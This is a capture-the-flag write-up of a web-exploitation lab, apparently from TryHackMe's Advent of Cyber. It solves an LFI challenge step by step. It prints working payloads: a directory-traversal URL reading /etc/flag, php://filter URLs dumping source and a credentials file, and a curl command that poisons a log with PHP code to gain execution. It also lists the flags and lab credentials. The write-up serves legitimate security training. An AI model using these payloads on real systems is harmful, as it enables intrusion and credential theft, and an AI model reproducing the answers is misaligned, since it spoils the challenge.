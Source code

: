# `[Web Exploitation]` Patch Management is Hard

## Story
>During a routine security audit before the Incident, McSkidy discovered some recovery passwords on an old server. She created a ticket to decommission this server to reduce this security vulnerability. The Elf assigned to fix this vulnerability kept pushing off the task, and this never got done. Luckily, some of those recovery keys can be used to save some systems.
>
>Unfortunately, the only way to access the server is through an old web application. See if you can pull out those recovery keys to help McSkidy with her pursuit to save Christmas.

Deploy the attached VM and look around. What is the entry point for our web application? `***`

When I opened the webpage, I could see the entry point in the URL: https://10-10-140-173.p.thmlabs.com./index.php?**_err_**=error.txt

Answer: `err`
### Use the entry point to perform LFI to read the /etc/flag file. What is the flag? `***{********************************}`

Using this I was then able to change the url to show what I wanted it to:

`https://10-10-140-173.p.thmlabs.com/index.php?err=./../../../../../etc/flag`

Answer: `THM{d29e08941cf7fe41df55f1a7da6c4c06}`

### Use the PHP filter technique to read the source code of the index.php. What is the `$flag` variable's value? `***{********************************}`

Using the same method as above eccept also using PHP filters, I navigated to the following address:
`https://10-10-140-173.p.thmlabs.com./index.php?err=php://filter/convert.base64-encode/resource=index.php`

This spat out a bunch of base64 encoded text, which I then used CyberChef to convert from. The flag was easily viewable at the top.

Answer: `THM{791d43d46018a0d89361dbf60d5d9eb8}`

>McSkidy forgot his login credential. Can you help him to login in order to recover one of the server's passwords?

> Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. 
### What are the username and password? `*******:************`

Same as above really, just changed the location:

`https://10-10-140-173.p.thmlabs.com./index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php`

This gave me the info.

Answer: `McSkidy:A0C315Aw3s0m`

> Use the credentials to login into the web application. Help McSkidy to recover the server's password. 

### What is the password of the flag.thm.aoc server? `***{********************************}`

Logged in using those credentials, then clicked on Password Recovery. Passwords were listed in plain text.

Answer: `THM{552f313b52e3c3dbf5257d8c6db7f6f1}`

> The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. 

### What is the hostname of the webserver? The log file location is at ./includes/logs/app_access.log. `************************************************`

Using their instructions, I was able to use `curl` in a terminal:
```
curl -A "<?php phpinfo();?>" http://10-10-140-173.p.thmlabs.com/login.php
```

Then using the first stage of the LFI, I was able to execute the php payload sent in the User-Agent `https://10-10-140-173.p.thmlabs.com/index.php?err=./includes/logs/app_access.log`

The hostname was in the system category of the table.

Answer: `lfi-aoc-awesome-59aedca683fff9261263bb084880c965`
